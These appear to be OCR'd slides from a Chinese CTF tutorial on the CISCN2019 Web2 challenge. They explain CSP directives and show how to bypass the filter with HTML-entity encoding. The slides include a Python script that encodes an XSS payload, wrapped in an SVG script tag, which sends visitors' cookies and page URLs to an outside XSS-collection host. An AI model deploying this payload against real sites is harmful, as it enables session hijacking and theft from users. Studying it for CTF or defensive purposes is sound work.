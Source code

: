 ## 例题2 **[CISCN2019 华东北赛区]Web2**  

![](img/web2-xss-CSP2.png)

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
其中default-src 'self';'unsafe-inline' 'unsafe-eval'是什么意思
1. default-src 'self'：只允许加载站内资源
2. 'unsafe-inline'：允许执行页面内嵌的标签个事件监听函数
3. 'unsafe-eval'：允许将字符串当作代码执行，比如使用eval、setTimeout、setInterval等函数

**使用[HTML Markup](https://www.w3.org/MarkUp/html-spec/html-spec_13.html )来绕过**

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
转换脚本

> in_str = "(function(){(window.location.href='http://xss.buuoj.cn/index.php?do=api&id=uavZKE&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"
output = ""
for c in in_str:
    output += "&#" + str(ord(c))
print("<svg><script>eval&#40&#34" + output + "&#34&#41</script></svg>")

---
## 例题2 **[CISCN2019 华东北赛区]Web2**
